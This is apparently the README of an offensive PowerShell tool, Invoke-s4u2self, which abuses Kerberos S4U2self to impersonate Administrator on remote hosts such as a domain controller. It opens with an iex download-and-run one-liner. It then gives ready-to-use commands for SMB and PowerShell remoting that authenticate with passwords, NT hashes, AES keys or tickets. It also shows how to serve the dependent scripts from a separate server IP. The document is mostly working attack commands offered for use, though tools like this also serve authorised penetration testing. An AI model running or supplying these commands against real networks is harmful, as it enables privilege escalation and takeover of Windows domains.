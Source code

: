 # Invoke-s4u2self
A tool that automates s4u2self abuse to gain access to remote hosts

Run as follows:

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-s4u2self/main/Invoke-s4u2self.ps1')
```

### SMBRemoting

```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -SMBRemoting -Password MachinePassword
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -SMBRemoting -NTHash 22a151bd3056ac739718f73dfe5f9614
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -SMBRemoting -AES256 d01c9d4441caf093ce018c432c48d50efc1c979a984d769cc0db76d6e5c05ab8
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -SMBRemoting -Ticket doIFgjCCBX6gA......BsNZmVycmFyaS5sb2NhbA==
```
```
Invoke-s4u2self -ComputerName DC01 -Domain ferrari.local -DomainController DC01.ferrari.local -Impersonate Administrator -SMBRemoting -NTHash 22a151bd3056ac739718f73dfe5f9614
```

### PSRemoting

```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -PSRemoting -Password MachinePassword
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -PSRemoting -NTHash 22a151bd3056ac739718f73dfe5f9614
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -PSRemoting -AES256 d01c9d4441caf093ce018c432c48d50efc1c979a984d769cc0db76d6e5c05ab8
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -PSRemoting -Ticket doIFgjCCBX6gA......BsNZmVycmFyaS5sb2NhbA==
```
```
Invoke-s4u2self -ComputerName DC01 -Domain ferrari.local -DomainController DC01.ferrari.local -Impersonate Administrator -PSRemoting -NTHash 22a151bd3056ac739718f73dfe5f9614
```

### Serve Scripts

You can serve the necessary scripts from a server ip and port

```
Invoke-s4u2self -Server "192.168.45.183" -ComputerName CDC01 -Impersonate Administrator -SMBRemoting -Ticket doI...TQ==
```
```
Invoke-s4u2self -Server "192.168.45.183:8080" -ComputerName CDC01 -Impersonate Administrator -SMBRemoting -Ticket doI...TQ==
```

![image](https://github.com/Leo4j/Invoke-s4u2self/assets/61951374/b9075667-bee3-40b6-bf6e-e4d227ac6ac9)

![image](https://github.com/Leo4j/Invoke-s4u2self/assets/61951374/ab213a41-dcbf-4b48-a67c-e0ebe478be12)


### Dependencies:
Invoke-SMBRemoting: https://github.com/Leo4j/Invoke-SMBRemoting

Rubeus: https://github.com/GhostPack/Rubeus
